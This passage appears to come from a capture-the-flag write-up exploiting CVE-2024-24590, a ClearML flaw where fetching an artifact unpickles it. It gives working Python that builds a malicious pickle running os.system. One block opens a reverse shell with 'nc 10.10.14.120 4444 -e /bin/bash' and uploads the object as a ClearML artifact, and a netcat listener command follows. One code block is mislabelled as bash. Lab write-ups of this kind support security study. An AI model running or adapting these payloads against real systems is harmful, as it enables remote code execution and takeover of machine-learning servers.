 The users are 

```
jippity@blurry
rayflection@blurry
```

As per CVE-2024-24590: Pickle Load on Artifact Get, if any user uses `gets()` on
an artifact then it is loaded into memory. So use pickle to serialize a command
for command injection. Set up a reverse shell.
Below is the python code to create a pickle artifact for command injection.


```python
import pickle
import os

class RunCommand:

def __reduce__(self):

    return (os.system, ('echo "Hacked by HiddenLayer" ; echo "Hacked over pickle
    loads" | nc 127.0.0.1 1337',))

command = RunCommand()

with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command, f)
```

For some reason uploading pickle artifact to clearml was not working. So, had to
directly upload the object to clearml. For running the below code you need to
get credentials from the clearml webui and running `clearml-init`.

```bash
from clearml import Task
import os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('echo "Hacked by HiddenLayer" ; echo "Hacked over pickle loads" | nc 10.10.14.120 4444 -e /bin/bash',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='testing')
# task.upload_artifact(name="safe", artifact_object='pickle_artifact.pkl')
task.upload_artifact(name="safe", artifact_object=command)
print('test')
```

Before uploading set up a listener on attacker machine

```bash
nc -nlvp 4444
```
